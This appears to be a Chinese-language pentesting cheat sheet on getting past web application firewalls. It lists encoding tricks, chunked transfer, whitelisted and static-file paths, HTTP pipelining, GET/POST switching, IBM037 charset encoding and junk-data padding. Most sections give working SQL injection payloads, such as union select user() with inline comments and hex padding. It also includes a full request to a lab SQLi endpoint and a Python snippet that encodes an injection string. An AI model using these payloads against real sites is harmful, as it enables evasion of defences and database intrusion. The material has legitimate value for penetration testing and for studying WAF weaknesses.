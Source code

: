 # WAF Bypass
## 编码绕过
URL编码\
2次URL编码

## 生僻函数绕过
使用生僻函数替代常见的函数，例如在报错注入中使用 polygon()函数替换常用的 updatexml()函数
select polygon((select * from (select * from (select @@version) f) x));

## 分块传输绕过
### 什么是 chunked 编码？
分块传输编码（Chunked transfer encoding）是只在 HTTP 协议 1.1 版本（HTTP/1.1）中提供的一种数据传送机制。以往 HTTP 的应答中数据是整个一起发送的，并在应答头里 Content-Length 字段标识了数据的长度，以便客户端知道应答消息的结束。\
传统的 Content-length 解决方案：计算实体长度，并通过头部告诉对方。浏览器可以通过 Content-Length的长度信息，判断出响应实体已结束。\
Content-length 面临的问题：由于 Content-Length 字段必须真实反映实体长度，但是对于动态生成的内容来说，在内容创建完之前，长度是不可知的。\
这时候要想准确获取长度，只能开一个足够大的 buffer，等内容全部生成好再计算。这样做一方面需要更大的内存开销，另一方面也会让客户端等更久。\
我们需要一个新的机制：不依赖头部的长度信息，也能知道实体的边界——分块编码（Transfer-Encoding:chunked）。\
对于动态生成的应答内容来说，内容在未生成完成前总长度是不可知的。因此需要先缓存生成的内容，再计算总长度填充到 Content-Length，再发送整个数据内容。这样显得不太灵活，而使用分块编码则能得到改观。\
分块传输编码允许服务器在最后发送消息头字段。例如在头中添加散列签名。对于压缩传输传输而言，可以一边压缩一边传输。

### 分块传输工具
burpsuite插件：`chunked-coding-converter`

## 白名单绕过
有些 WAF 会自带一些文件白名单，对于白名单 waf 不会拦截任何操作，所以可以利用这个特点，可以试试白名单绕过。\
白名单通常有目录：
```http
/admin
/phpmyadmin
/admin.php
```

## 静态文件绕过
除了白名单信任文件和目录外，还有一部分 waf 并不会对静态文件进行拦截。\
例如 图片文件 jpg 、png 、gif 或者 css 、js 会对这些静态文件的操作不会进行检测从而绕过 waf 拦截。\
```http
/1.jpg&name=vince+&submit=1
/1.jpg=/1.jpg&name=vince+&submit=1
/1.css=/1.css&name=vince+&submit=1
```

## pipline 绕过注入
http 协议是由 tcp 协议封装而来，当浏览器发起一个 http 请求时，浏览器先和服务器建立起连接 tcp 连接，然后发送 http 数据包（即我们用 burpsuite 截获的数据），其中包含了一个 Connection 字段，一般值为 close，apache 等容器根据这个字段决定是保持该 tcp 连接或是断开。当发送的内容太大，超过一个http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的 http 请求所建立的 tcp 连接不断开，直到所发送内容结束 Connection 为 close 为止用 burpsuite 抓包提交 复制整个包信息放在第一个包最后，把第一个包 close 改成 keep-alive 把brupsuite 自动更新 Content-Length 勾去掉。

## http 相同参数请求绕过
waf 在对危险字符进行检测的时候，分别为 post 请求和 get 请求设定了不同的匹配规则，请求被拦截，变换请求方式有几率能绕过检测。如果程序中能同时接收 get、post 如果 waf 只对 get 进行匹配拦截，没有对 post 进行拦截。\
```php
<?php
echo $_REQUEST['id'];
?>
```

## HTTP 数据编码绕过
编码绕过在绕 waf 中也是经常遇到的，通常 waf 只坚持他所识别的编码，比如说它只识别 utf-8 的字符，但是服务器可以识别比 utf-8 更多的编码。\
那么我们只需要将 payload 按照 waf 识别不了但是服务器可以解析识别的编码格式即可绕过。
比如请求包中我们可以更改 Content-Type 中的 charset 的参数值，我们改为 ibm037 这个协议编码，有些服务器是支持的。payload 改成这个协议格式就行了。\
```http
```http
POST /06/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.0.115
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;charset:ibm037
Content-Length: 33
Connection: close
Cookie: PHPSESSID=e6sa76lft65q3fd25bilbc49v3; security_level=0
Upgrade-Insecure-Requests: 1
%89%84=%F1&%A2%A4%82%94%89%A3=%F1
```
透过 Content-Type 的 charset 绕过 waf#

未编码\
```http
id=123&pass=pass%3d1
```

透过 IBM037 编码\
```http
%89%84=%F1%F2%F3&%97%81%A2%A2=%97%81%A2%A2~%F1
```

在提交的 http header\
```http
Content-Type: application/x-www-form-urlencoded; charset=ibm037
```

```python
import urllib.parse
s = 'id=-1 union select 1,user()-- &submit=1'
ens=urllib.parse.quote(s.encode('ibm037'))
print(ens)
```

## 填充垃圾数据
可以使用 select 0xA 运行一些字符从绕突破一些 waf 拦截\
`id=1 and (select 1)=(select
0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()`\
post 编码：\
`1+and+(select+1)%3d(select+0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*
/1,user()&submit=1`

## 填充垃圾请求头
